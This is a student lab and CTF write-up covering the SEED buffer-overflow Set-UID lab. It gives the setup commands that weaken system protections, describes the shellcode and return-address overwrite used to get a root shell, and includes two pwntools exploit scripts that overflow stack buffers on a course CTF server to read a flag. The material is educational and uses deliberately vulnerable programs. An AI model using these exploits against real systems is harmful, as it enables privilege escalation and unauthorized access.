









# Trabalho realizado na semana #5

<br>

# SEED Labs - Buffer Overflow Attack Lab (Set-UID Version)

## Preparation

To prepare our systems for this lab, we followed the Environment Setup section of the guide:

1. Turn off address space randomization for the stack and the heap
   - Execute `sudo sysctl -w kernel.randomize_va_space=0`
   - This command instructs the kernel to stop randomizing the starting addresses of the stack and the heap. This is necessary for this lab because it makes the address at which our shellcode will be located more predictable.

2. Link `/bin/sh` to `/bin/zsh`
   - Execute `sudo ln -sf /bin/zsh /bin/sh`
   - This command is executed because, normally, `/bin/sh` points to `/bin/dash`. Both `dash` and `bash` contain special protections against being executed from a program with the Set-UID bit set, which is the program we will be trying to attack. `zsh`, on the other hand, doesn't have that kind of protections.

<br>

## Task 1 : Getting Familiar with Shellcode

The goal of this task is to understand how a shellcode works and how the execution of it inside another program works.

We are given a shellcode - and the corresponding binary version - that executes `/bin//sh` (which is the same as `/bin/sh`) using `execve`.

To execute this shellcode, we can compile the program `call_shellcode.c`.

1. Run `cd shellcode`
2. Run `make`
   - This will compile the file code into two different executables: `a64.out` and `a32.out`. We are interested in the 32-bit architecture.
3. Run `a32.out`
   - This will execute the shellcode and, therefore, `/bin/sh`. Inside the shell, you can execute `whoami` and confirm you are executing the shell as `seed`. You may use the shell to freely execute any command, taking advantage of the machine.
4. Run `make setuid`
   - After compilation, this will set the Set-UID bit of `a32.out` and it's owner will be changed to `root`. This means that when `a32.out` is executed, the process's user ID to that of `root`.
5. Run `a32.out`
6. Inside the shell, execute `whoami`
   - The name `root` should appear on the screen, indicating you are executing the shell as `root`. Any command you execute will be executed as `root` as well. 

<figure>
   
   <figcaption><strong>Fig 1. </strong>Overview of task 1</figcaption>
</figure>

<br>

## Task 2 : Understanding the Vulnerable Program

In this task, we are given a closer look at the source code of the program we will be trying to exploit.

In particular, we noticed that, in the `bof` function, the `str` array is coppied to `buffer`, however, `str` can have size up to 517 while `buffer` only has a size of 100 bytes. Since `strcpy` copies data until it reaches a null terminator, this means that there will be a buffer overflow.

Since the `str` array comes from user input, this means we will be able to place our shellcode in the `badfile` file and overwrite the return address of `bof`, in order to execute our shellcode, which will be in the stack.

<br>

## Task 3 : Launching Attack on 32-bit Program (Level 1)

In the investigation phase, we ran the following commands:

1. `make`, to compile the program with the proper flags (`-g` for debugging, `-m32` for 32-bit compilation, `-z execstack` to allow code execution from the stack and `-fno-stack-protector` to remove any protections against buffer overflows in the stack).
2. `touch badfile`, to create the badfile so that the read doesn't fail.
3. `gbd stack-L1-dbg`, to start a debugging session on the console. By specifying the program in the command, gdb automatically loads the program's symbols (functions, global variables, ...).
4. Inside the debugging session, we run:
   
   1. `b bof` to create a breakpoint at the start of the `bof` function
   2. `run` to execute the program until `bof` is called
   3. At this point, we can create new breakpoints, run `next` to debug the code step by step or run `p <expression>` to print the value of an expression. `next`. This will stop execution at the `strcpy` call.
   4. `p $ebp` to print the value of the `ebp` register. The text displayed on the terminal was `$1 = (void *) 0xffffcac8`, indicating that the `ebp` register has the value `0xffffcac8`. This address is the address of `bof`'s stack frame, where its return address is located.
   5. `p &buffer` to print the address where the `buffer` starts. This will be useful for us to know how many bytes we must write in order to reach `bof`'s return address.
   6. `quit` to exit the debugging session.

<figure>
   
   <figcaption><strong>Fig 2. </strong>Compiling the program and creating &quot;badfile&quot;</figcaption>
</figure>
<figure>
   
   <figcaption><strong>Fig 3. </strong>Starting the debugging session</figcaption>
</figure>
<figure>
   
   <figcaption><strong>Fig 4. </strong>Creating a breakpoint at the start of <code>bof</code></figcaption>
</figure>
<figure>
   
   <figcaption><strong>Fig 5. </strong>Executing the program until <code>bof</code> is reached</figcaption>
</figure>
<figure>
   
   <figcaption><strong>Fig 6. </strong>Stepping over to the first line of code of <code>bof</code></figcaption>
</figure>
<figure>
   
   <figcaption><strong>Fig 7. </strong>Printing the value of the frame pointer and <code>buffer</code>&apos;s address</figcaption>
</figure>


5. From the latter steps, we learn that, inside `bof`:

    - `buffer` is located at `0xffffca5c` (can vary from computer to computer)
    - `ebp`, the frame pointer, is `0xffffcac8` (can vary from computer to computer)

This means that the 4 bytes located at `0xffffcac8` are a pointer to `dummy_function`'s stack frame and that the 4 bytes following that will be `bof`'s return address - those are the bytes we want to overwrite.

The values we should change in `exploit.py` are:
   
   - `shellcode`: the shellcode that will be injected.
   - `start`: refers to the beginning position of our shellcode, relative to the start of `buffer`.
   - `ret`: refers to the the return address we want our program to jump to after `bof` ends its execution.
   - `offset`: refers to the position of `bof`'s return address, relative to the start of `buffer`.

For `shellcode`, we can simply reuse the one from the 1st task.

Since the addresses will vary based on whether we execute the program with `gdb`, there is no precise way to find `buffer`'s address in the version with the `Set-UID` bit set. As such, in order to maximize our chances of executing the shellcode, we'll use a NOP sled. Since 517 bytes will be read, we can get a bigger NOP sled if we place our shellcode in the address space after `bof`'s return address, in particular, at the end of the 517 bytes. Therefore, `start = len(content) - len(shellcode)`.

We want to overwrite `bof`'s return address, so that we can execute the shellcode. As such, in the exploit, we use an `offset` of `ebp - buffer + 4 (the size of a pointer in a 32-bit executable - the frame pointer) = 112`.

We want to execute our shellcode, but if we just use `ret = <result of p &buffer>`, we will jump to a NOP sled and, eventually, "slide" into `bof`'s return address, which will be interpreted as processor instructions, and will, most likely, be invalid and make our program crash. Therefore, we need `ret` to be greater than the address of `bof`'s return address. As such, we can experiment with `ret = 0xffffca5c + offset + C` where C is a constant (with `gdb`, C >= 1; without `gdb`, normally, C >= 300).

With these parameters set, we just need to generate the payload and run the program.

6. Put these parameters in `exploit.py`.

<figure>
   
   <figcaption><strong>Fig 8. </strong>The resulting <code>exploit.py</code></figcaption>
</figure>

7.  Run `exploit.py`.
8.  Run `stack-L1`.
9.  At this point, you should be in a root shell since any child process of `stack-L1` will also be executed with `root`'s effective user ID. Run `whoami` to verify this.

<figure>
   
   <figcaption><strong>Fig 9. </strong>Executing the vulnerable program</figcaption>
</figure>

<br>
<br>
<br>

# CTF

## CTF - Desafio 1

### Step 1 - Checksec

By running checksec on the program, we can discover many things:

```bash
❯ checksec program
  Arch:     i386-32-little
  RELRO:    No RELRO
  Stack:    No canary found
  NX:       NX disabled
  PIE:      No PIE (0x8048000)
  RWX:      Has RWX segments    
```

- The executable's architecture is 32 bits and little endian

- There are segments in the memory with Read, Write and Execute Permissions

- Address Space Layout Randomization (ASLR) is disabled

- Position Independent Executable (PIE) is disabled

- NX (No execute) is disabled

- There's no canary

### Analysis

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```
By analysing the program code, we can easily see that even tho the buffer only has 20 chars space, we are reading 28 with `scanf("%28s", &buffer)` and that overwrites the buffer by 8 bytes. 

Since the user controls the input, by writing `flag.txt` after 20 chars, you can easily overwrite the variable meme_file and open the flag

### Exploitation

```python
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

payload = b"a" * 20 + b"flag.txt"

r.recvuntil(b":")
r.sendline(payload)
r.interactive()
```


## CTF - Desafio 2

### Step 1 - Checksec

By running checksec on the program, we can discover many things:

```bash
❯ checksec program
  Arch:     i386-32-little
  RELRO:    No RELRO
  Stack:    No canary found
  NX:       NX disabled
  PIE:      No PIE (0x8048000)
  RWX:      Has RWX segments    
```

- The executable's architecture is 32 bits and little endian

- There are segments in the memory with Read, Write and Execute Permissions

- Address Space Layout Randomization (ASLR) is disabled

- Position Independent Executable (PIE) is disabled

- NX (No execute) is disabled

- There's no stack canary

### Analysis

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(int*)val == 0xfefc2223) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

This challenge is similar to the first one, with the little twist added that now we can't just overflow the buffer to read the flag.

Like in the first challenge our buffer supports 20 bytes, however, we are reading 32 from user input, which gives us 12 bytes of freedom for our payload.

We need that `val` has the value `0xfefc2223` to proceed with the challenge and, since this one can be found in a memory region in between the buffer and the filename, we just need to overwrite the bytes 20 to 24.

From there on, the challenge is exactly like the previous one.

### Exploitation

```python
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")

payload = b"aaaaaaaaaaaaaaaaaaaa" + p32(0xfefc2223) + b"flag.txt"


r.sendline(payload)
r.interactive()
```